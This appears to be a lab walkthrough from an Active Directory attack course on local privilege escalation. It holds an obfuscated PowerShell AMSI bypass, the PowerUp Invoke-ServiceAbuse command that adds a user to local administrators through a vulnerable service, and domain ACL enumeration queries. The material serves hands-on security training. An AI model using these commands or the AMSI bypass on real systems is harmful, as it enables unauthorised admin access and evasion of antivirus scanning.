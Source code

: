 # Hands-on 5: Local Privilege Escalation

- [Hands-on 5: Local Privilege Escalation](#hands-on-5-local-privilege-escalation)
  - [Tasks](#tasks)
  - [Exploit a service on studentx and elevate privileges to local administrator](#exploit-a-service-on-studentx-and-elevate-privileges-to-local-administrator)
  - [Identify a machine in the domain where studentuserx has local administrative access due to group membership](#identify-a-machine-in-the-domain-where-studentuserx-has-local-administrative-access-due-to-group-membership)

---

## Tasks

- Exploit a service on studentx and elevate privileges to local administrator. 
- Identify a machine in the domain where studentuserx has local administrative access due to group membership.

<br/>

---

## Exploit a service on studentx and elevate privileges to local administrator

First import PowerUp.ps1:

```
[Runtime.InteropServices.Marshal]::WriteInt32([Ref].Assembly.GetType('System.Management.Automation.'+$([chAR]([BYte]0x41)+[cHAr](109)+[ChAR](12650/110)+[CHAr](105))+'Utils').GetField($([cHAR]([bYte]0x61)+[CHAR](144-35)+[ChAR]([byTE]0x73)+[Char]([byTE]0x69)+[CHar](67)+[chaR](14+97)+[chaR](77+33)+[char](91+25)+[chAr](2424/24)+[cHAR](126-6)+[chAR]([BYTe]0x74)),[Reflection.BindingFlags]'NonPublic,Static').GetValue($null),0x39AF8D70);
```

```
. C:\AD\Tools\PowerUp.ps1
```

<br/>

Run all checks:

```
Invoke-AllChecks
```

![picture 46](images/34b873a23fd9ca7b21278c40dfe55d9ca82c6bc9c51d89a2ac26e7f2df9b63d6.png)  

- Vulnerable Serivce: `ALG`

<br/>

Use the ServiceAbuse function to add `us\studentuser64` into local admin group:

```
Invoke-ServiceAbuse -Name 'ALG' -Command 'net localgroup administrators us\studentuser64 /add'
```

![picture 47](images/36fc584a19bfe3d2209b3d370f73b595203fcc675d353ddc901b78b991969b76.png)  

<br/>

Check the local admins group:

```
net localgroup administrators
```

![picture 48](images/7ebcc60fab46af8d63c4c21b610090f761a7ddb3946f80936e3c0b209d924b32.png)  

<br/>

---

## Identify a machine in the domain where studentuserx has local administrative access due to group membership

`Find-LocalAdminAccess` won't return any result.

<br/>

Check group membership of the current user:

```
Get-DomainGroup -UserName studentuser64 | Select distinguishedname
```

![picture 49](images/1548d02de70592dbfa62255c5e785810e8d6d3abfa58173accc951e403018228.png)  

<br/>

Check interesting ACLs:

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{ ($_.IdentityReferenceName -match "manager") -or ($_.IdentityReferenceName -match "studentusers") -or ($_.IdentityReferenceName -match "maintenanceusers") }
```

